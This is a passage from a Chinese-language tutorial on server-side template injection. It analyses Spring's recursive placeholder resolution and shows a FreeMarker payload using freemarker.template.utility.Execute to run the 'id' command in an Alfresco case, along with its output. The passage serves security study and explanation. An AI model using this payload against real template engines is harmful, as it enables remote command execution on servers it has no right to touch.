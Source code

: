 ```java
        };
    }

    ...

    public void render(Map<String, ?> model, HttpServletRequest request, HttpServletResponse response)
            throws Exception {
        ...
        String result = helper.replacePlaceholders(template, resolver);//replacePlaceholders是一个递归调用，能将第二个参数的${} 中的值取出来，不管有多少层括号
        ...
    }
}
```

resolver 这个参数是经过递归的去

```
${}
```

处理的，不信我们看一下 replacePlaceholders()

```
public String replacePlaceholders(String value, final Properties properties) {
    Assert.notNull(properties, "'properties' must not be null");
    return replacePlaceholders(value, new PlaceholderResolver() {
        @Override
        public String resolvePlaceholder(String placeholderName) {
            return properties.getProperty(placeholderName);
        }
    });
}
```

很明显这里面递归调用了replacePlaceholders() 函数，最终能得到单纯的表达式，然后渲染的时候放在

```
${}
```

就执行了。

#### **实例二：**

在2015年的blackhat 大会上曾讲述了Alfresco 的一个 SSTI 漏洞，不过很遗憾我没有找到源码，没能亲自分析，只能拿来payload 分析一下。

**实例代码：**

```
<#assign ex="freemarker.template.utility.Execute"?new()> 
${ ex("id") }
```

**结果：**

```
uid=119(tomcat7) gid=127(tomcat7) groups=127(tomcat7) 
```
